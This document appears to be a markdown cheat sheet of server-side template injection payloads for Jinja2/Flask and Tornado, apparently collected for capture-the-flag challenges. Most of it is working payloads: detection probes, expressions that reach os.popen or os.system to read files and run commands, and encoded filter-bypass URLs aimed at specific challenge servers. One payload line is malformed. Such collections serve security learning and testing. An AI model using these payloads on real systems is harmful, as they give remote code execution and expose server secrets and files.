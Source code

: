 ### Server Side Template Injection

---

Server side template injection is possible when an attacker injects template directive as user input that can execute arbitrary code on the server (Server-side).

Testing - `${{<%[%'"}}%\` use to check if any error occurs.
If an exception is raised, this indicates that the injected template syntax is potentially being interpreted by the server in some way. This is one sign that a vulnerability to server-side template injection may exist.

![image](https://github.com/user-attachments/assets/4408a527-a6be-4540-bdee-8bc9f419753f)

[Portswigger](https://portswigger.net/web-security/server-side-template-injection/exploiting)  

Example of a vulnerability : 

```py
{{5*5}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}
```

---

#### Flask payload for Jinja2 : 
#### Config objects

The current configuration object : flask.config

Start with payload : `{{config.items()}}`
Then inject the second payload : `{{config.from_object('os')}}


```py
{{config.__class__.__init__.__globals__['os'].popen('cat flaskr/protected/burdellsecrets.txt').read()}}
{{config.__class__.__init__.__globals__['os'].popen('cat /home/ctf/flag.txt').read()}}
{{config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read()}}
{{config}}
{{config.items}}
{%with a="Hello World"%}
{%print(a)%}
{%endwith}
{%with a=request|attr("application")|attr("__globals__")|attr(__getitem__)(__builtins__)|attr__getitem__)(__import__)("os")|attr("popen")("cat${IFS}flag.txt")|attr("read")()%}
```

---

#### Tornado payload

```py
{%import%20os%}{{os.popen("ls").read() }}
{% import os %}{{ os.popen("ls").read() }}
{{globals()}}
{% import os %}{{os.getcwd()}}
{% import os %}{{os.listdir(/home/tornado)}}
{% import os %}{{os.system(r"lookatme.txt")}}
{{help(object name)}}

```

```py
ctf payloads

http://chall.battlectf.online:8085/?capital={{%20().__class__.__base__.__subclasses__()[354](%22cat%20flag.txt%22,%20shell=True,%20stdout=-1).communicate()[0].strip()}}

SSTI with bypass
http://chall.battlectf.online:8086/?capital={{request|attr(%27application%27)|attr(%27\x5f\x5fglobals\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f%27)(%27os%27)|attr(%27\x70\x6f\x70\x65\x6e%27)(%27cat%20flag\x2etxt%27)|attr(%27read%27)()}}
```
